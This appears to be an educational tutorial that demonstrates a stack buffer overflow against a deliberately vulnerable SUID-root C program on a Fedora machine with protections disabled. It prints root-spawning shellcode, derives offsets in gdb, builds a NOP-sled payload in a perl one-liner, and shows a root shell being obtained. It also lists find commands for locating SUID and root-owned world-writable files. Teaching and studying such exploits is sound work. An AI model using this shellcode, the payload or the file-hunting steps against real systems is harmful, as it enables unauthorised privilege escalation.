




# Vulnerability & Exploit Example

## The Vulnerable And The Exploit

**Warning!!** All the security setting for buffer overflow protection (**non-executable stack** and **randomization** of the certain portion of memory addresses) of the test Linux Fedora machine used in this section has been disabled for the educational purpose of the demonstration. Do not do this on your production machines! OS:  Fedora 3, 2.6.11.x kernel with several updates.

With the knowledge that we supposedly have acquired, let test the stack based buffer overflow in the real vulnerable program.

### Some Background Story of The SUID

In certain circumstances, unprivileged users must be able to accomplish tasks that require privileges. An example is the **passwd** program, which allows normal user to change their password. Changing a user’s password requires modifying the password field in the `/usr/bin/passwd` file. However, you should not give a user access to change this file directly because the user could change everybody else’s password as well. To get around these problems, Linux/Unix allows programs to be endowed with privilege. Processes executing these programs can assume another UID (User Identifier) or GID (Group Identifier) when they’re running. A program that changes its UID is called a SUID program (set-UID); a program that changes its GID is called a SGID program (set-GID).  A program can be both SUID and SGID at the same time. In Windows it may be similar to RunAs. When a SUID program is run, its effective UID becomes that of the owner of the file, rather than of the user who is running it.

### The Possible Problem

Any program can be SUID/ SGID, or both SUID and SGID. Because this feature is so general, SUID/SGID can open up some interesting security problems. For example, any user can become the superuser simply by running a SUID copy of csh that is owned by root (you must be root to create a SUID version of the csh). Executable SUID and SGID files or program when run by a normal user may have access to resources not normally available to the user running the program (note the owner vs user of the files). For example:

```
[bodo@bakawali /]$ ls -l /home/bodo/testbed2/test
-rwsr-xr-x  1 root root 6312 Feb 15 23:11 /home/bodo/testbed2/test
[bodo@bakawali /]$ ls -l /sbin/netreport
-rwxr-sr-x  1 root root 10851 Nov  4 13:48 /sbin/netreport
[bodo@bakawali /]$
```

The s in the owner’s and group’s permission field in place of the usual x as in the listing above indicates that executable test program is SUID and netreport is SGID. If run by a normal user, the executable will run with the privileges of the owner/group of the file, in this case as root. In this case the program will have access to the same system resources as root (but the limit is defined by what the program can do). These SGID and SUID programs may be used by a cracker as a normal user to gain root privilege.  You can try listing all of the SUID and SGID files on your system with the following find command:

```
[root@bakawali /]# find / -perm -004000 -o -perm -002000 -type f
```

This find command starts in the root directory (/) and looks for all files that match mode 002000 (SGID) or mode 004000 (SUID). The -type f option causes the search to be restricted to files. For the basic attack you can use the root owned, world writable files and directories. These files and directories can be listed by using the following find command:

```
[root@bakawali /]# find / -user root -perm  -022
```

You can set/unset SUID or SGID privileges with the chmod command. For example:

```
chmod 4xxx file_name    or    chmod +s file_name   - SUID
chmod 2xxx file_name                               - GUID
```

## Example No.1 - Exploit Demonstration

In our exploit example we are going to overflow the stack using a SUID program. In this exploit we as normal user are going to spawn a local root shell by overflowing the program owned by root. The vulnerable program used is shown below. This is a SUID program.

```c
/* test.c */
#include <unistd.h>

int main(int argc, char *argv[])
{
	char buff[100];
	/*if no argument…*/
	if(argc <2)
	{
		printf("Syntax: %s <input string>\n", argv[0]);
		exit (0);
	}
	strcpy(buff, argv[1]);
	return 0;
}
```

The shellcode used to spawn a root shell is as follows:

```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

In our vulnerable program we have declared an array buff[100] of size 100. We use vulnerable functions, strcpy(), that do not do the bound checking of the input. We are going to overflow the stack of this program by supplying more than 100 characters until the return address is properly overwritten and pointing back to the stack which we have stored our ‘**root spawning**’ shellcode. By simple observation and calculation, the stack frame for this program should be as follows:

<br />
Figure 1: Spawning a root shell exploit - a stack layout.

Let run the program with same sample inputs. Firstly, compile the test.c, change the owner and group to root and suid the program then change back to normal user, so that we as normal user can run the program that owned by root.

```
[bodo@bakawali testbed2]$ gcc -g test.c -o test
[bodo@bakawali testbed2]$ ls -l
total 20
-rwxrwxr-x  1 bodo bodo 6312 Feb 25 23:18 test
-rwxr-xr-x  1 root root  219 Feb 15 22:38 test.c
[bodo@bakawali testbed2]$ su
Password: *****
[root@bakawali testbed2]# chown 0:0 test
[root@bakawali testbed2]# ls -l
total 20
-rwxrwxr-x  1 root root 6312 Feb 25 23:18 test
-rwxr-xr-x  1 root root  219 Feb 15 22:38 test.c
[root@bakawali testbed2]# chmod 4755 test
[root@bakawali testbed2]# ls -l
total 20
-rwsr-xr-x  1 root root 6312 Feb 25 23:18 test
-rwxr-xr-x  1 root root  219 Feb 15 22:38 test.c
[root@bakawali testbed2]# exit
exit
[bodo@bakawali testbed2]$
```

From the previous stack layout, in order to overwrite the return address we need to supply 108 characters or at least 104 to start the overwriting. Let verify this fact by running the program with some sample inputs.

```
[bodo@bakawali testbed2]$ ls -l
total 20
-rwsr-xr-x  1 root root 6312 Feb 15 23:11 test
-rwxr-xr-x  1 root root  219 Feb 15 22:38 test.c

[bodo@bakawali testbed2]$ ls -F -l
total 20
-rwsr-xr-x  1 root root 6312 Feb 25 23:18 test*
-rwxr-xr-x  1 root root  219 Feb 15 22:38 test.c*
[bodo@bakawali testbed2]$ ./test `perl -e 'print "A"x100'`
[bodo@bakawali testbed2]$ ./test `perl -e 'print "A"x104'`
[bodo@bakawali testbed2]$ ./test `perl -e 'print "A"x108'`
[bodo@bakawali testbed2]$ ./test `perl -e 'print "A"x116'`
[bodo@bakawali testbed2]$ ./test `perl -e 'print "A"x120'`
[bodo@bakawali testbed2]$ ./test `perl -e 'print "A"x124'`
Segmentation fault
[bodo@bakawali testbed2]$
```

Well, we need at least 124 bytes instead of 104. So what happened here? Let examine the program using gdb.

```
[bodo@bakawali testbed2]$ gdb -q test
Using host libthread_db library "/lib/tls/libthread_db.so.1".
(gdb) disass main
Dump of assembler code for function main:
0x080483d0 <main+0>:    push   %ebp
0x080483d1 <main+1>:    mov    %esp, %ebp
0x080483d3 <main+3>:    sub    $0x78, %esp
0x080483d6 <main+6>:    and    $0xfffffff0, %esp
0x080483d9 <main+9>:    mov    $0x0, %eax
...
[Trimmed]
...
0x08048425 <main+85>:   add    $0x10, %esp
0x08048428 <main+88>:   mov    $0x0, %eax
0x0804842d <main+93>:   leave
0x0804842e <main+94>:   ret
---Type <return> to continue, or q <return> to quit---
End of assembler dump.
(gdb)
```

By disassembling the main(), we can see that 120 (0x78) bytes have been reserved instead of 100. There are some changes here; the stack is aligned by 16 bytes after gcc 2.96. So when main() function is called, the space for a local variable is padded by 16 bytes. Newer version of gcc may also behave differently. It is better for you to use your gdb to verify this.  You also can test this by running the following program. Change the n to different values and verify the buffer reserved on the stack by using gdb.

```c
/****testbuf.c******/
int main(int argc, char *argv[])
{
    char buffer[n];
    strcpy(buffer, argv[1]);
    return 0;
}
```

Back to our program, the stack now should be like this:

<br />
Figure 2: Spawning a root shell exploit - stack's content arrangement.

So, we need at least 124 bytes to start overwriting the saved ebp and 128 bytes to overwrite the return address. Our stack arrangement should be something like the following:

```
NOPs (72 bytes) + Shellcode (32 bytes) + ‘A’ characters (20 bytes) + Return address (4 bytes-pointing back to the NOPs area) = 72 + 32 + 20 + 4 = 128 bytes
```

Using the perl’s print command for easiness, our input/argument arrangement is as follows. This is a one line command.

```
`perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
```

In order to make our chances higher in hitting our shellcodes, we pad at the beginning of the stack with NOP (executable no-operation instruction-\x90 for x86).  Though guess work might still be required, the return address must not be as precise anymore; it is enough to hit the NOPs area.  Now our stack layout should be something like the following:

<br />
Figure 3: Spawning a root shell exploit - stack's content arrangement with NOPs and shellcodes.

Other Intel x86 instructions that can be used to replace NOPs (because NOPs are easily detected by Intrusion Detection System – IDS) can be found at the following links: [NOP equivalent instructions](http://www.tenouk.com/Bufferoverflowc/NOPequivalentinstructions.txt) or you can check the processor’s instruction set documentation. Next, let verify the return address of our program by running it in gdb with some sample input/argument as constructed previously.

```
[bodo@bakawali testbed2]$ gdb -q test
Using host libthread_db library "/lib/tls/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x80483ec: file test.c, line 7.
(gdb) r `perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f
\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`

Starting program: /home/bodo/testbed2/test `perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69
\x89\xe3\x52\x53\x89\xe1\x8d\x42x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
Breakpoint 1, main (argc=2, argv=0xbffffa54) at test.c:7
7       if(argc <2)
(gdb) step
11      strcpy(buff, argv[1]);
(gdb) x/200x $esp
0xbffff940:     0x6f6e2800      0x0029656e      0xbffff994      0x00000000
0xbffff950:     0xbffff994      0x00000000      0x00000000      0x00000000
0xbffff960:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff970:     0x00000000      0x00000000      0x0177ff8e      0xbffffa00
0xbffff980:     0x0066e4f8      0x00000000      0x00000000      0x00000000
...
[Trimmed]
...
0xbffffa40:     0x08048484      0x006643d0      0xbffffa4c      0x0066af11
0xbffffa50:     0x00000002      0xbffffb5a      0xbffffb73      0x00000000
0xbffffa60:     0xbffffbf6      0xbffffc08      0xbffffc18      0xbffffc23
0xbffffa70:     0xbffffc31      0xbffffc5b      0xbffffc6e      0xbffffc78
0xbffffa80:     0xbffffe3b      0xbffffe47      0xbffffe52      0xbffffea4
0xbffffa90:     0xbffffebe      0xbffffeca      0xbffffee2      0xbffffef7
0xbffffaa0:     0xbfffff08      0xbfffff11      0xbfffff44      0xbfffff54
0xbffffab0:     0xbfffff5c      0xbfffff69      0xbfffffac      0xbfffffce
0xbffffac0:     0x00000000      0x00000010      0x0383f3ff      0x00000006
0xbffffad0:     0x00001000      0x00000011      0x00000064      0x00000003
...
[Trimmed]
...
0xbffffb30:     0x00000000      0x0000000f      0xbffffb4b      0x00000000
0xbffffb40:     0x00000000      0x00000000      0x69000000      0x00363836
---Type <return> to continue, or q <return> to quit---
0xbffffb50:     0x00000000      0x00000000      0x682f0000      0x2f656d6f
0xbffffb60:     0x6f646f62      0x7365742f      0x64656274      0x65742f32
0xbffffb70:     0x90007473      0x90909090      0x90909090      0x90909090
0xbffffb80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb90:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffba0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffbb0:     0x90909090      0x90909090      0x31909090      0xb0c389c0
0xbffffbc0:     0x3180cd17      0x6e6852d2      0x6868732f      0x69622f2f
0xbffffbd0:     0x5352e389      0x428de189      0xcd623078      0x61616180
0xbffffbe0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffbf0:     0xfffba061      0x4f4800bf      0x414e5453      0x623d454d
0xbffffc00:     0x77616b61      0x00696c61      0x4c454853      0x622f3d4c
0xbffffc10:     0x622f6e69      0x00687361      0x4d524554      0x6574783d
0xbffffc20:     0x48006d72      0x53545349      0x3d455a49      0x30303031
0xbffffc30:     0x48535300      0x494c435f      0x3d544e45      0x66663a3a
0xbffffc40:     0x313a6666      0x312e3136      0x312e3234      0x312e3435
0xbffffc50:     0x31203130      0x20383430      0x53003232      0x545f4853
(gdb) x/x $ebp
0xbffff9c8:     0xbffffa28
(gdb) x/x $ebp+4
0xbffff9cc:     0x00689e33
(gdb) x/x $ebp-4
0xbffff9c4:     0x0066dc80
(gdb) x/x $esp
0xbffff940:     0x6f6e2800
(gdb) q
The program is running.  Exit anyway? (y or n) y
```

The important part of the memory location has been highlighted with color. Next, get an address of the NOPs area. If the chosen address of the NOPs fails, try another adjacent address. The most important thing here the chosen return address must be pointing the NOPs area. Let try the following address.

```
0xbffffba0
```

Rearrange in hexadecimal representation.

```
\xbf\xff\xfb\xa0
```

Little endian the return address.

```
\xa0\xfb\xff\xbf
```

Then, based on our previous arrangement,

```
NOPs (72 bytes) + Shellcode (32 bytes) + ‘A’ characters (20 bytes) + Return address (4 bytes-pointing back to the NOP area) = 72 + 32 + 20 + 4 = 128 bytes
```

Replace the return address of the return address part in the original argument. Take note that this is a one line command.

```
`perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
```

Re-run the program with this new argument.

```
[bodo@bakawali testbed2]$ whoami
bodo
[bodo@bakawali testbed2]$ ./test `perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80
\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
sh-3.00# whoami
root
sh-3.00# id
uid=0(root) gid=502(bodo) groups=502(bodo) context=user_u:system_r:unconfined_t
sh-3.00# su -
[root@bakawali ~]# whoami
root
[root@bakawali ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:system_r:unconfined_t
[root@bakawali ~]#
```

Well, we got root in the first try!  And the rest is history :o)…We passed the input strings to our program through the argv[1] (as the command line first argument). Then in the program, the strcpy() copied the input into the stack’s buffer without verifying the size, overwriting the return address nicely with an address that pointing back to the stack area.  When the program finished, instead of returning back to system/OS, it return to the stack area, start executing the NOPs and proceeded to our shellcode that spawned a root shell.  Our final stack layout that has been over flown should be looked something like the following:

<br />
Figure 4: Spawning a root shell exploit - mission accomplished.
